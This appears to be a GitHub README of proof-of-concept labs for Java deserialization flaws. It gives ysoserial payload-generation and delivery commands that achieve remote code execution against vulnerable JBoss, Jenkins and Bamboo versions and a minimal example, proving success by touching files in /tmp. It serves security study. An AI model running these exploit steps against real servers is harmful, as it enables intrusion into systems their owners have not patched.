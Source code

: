 Here there are practical examples of the - deserialization of untrusted data - vulnerability.

These pocs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use OpenJDK 1.8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------

- Use OpenJDK 1.8
- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: ```java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser``` or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------
- Use OpenJDK 1.8
- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```


Bamboo (CVE-2015-6576)
---------------------------------

- Use openJDK 1.7
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings

- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/
- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


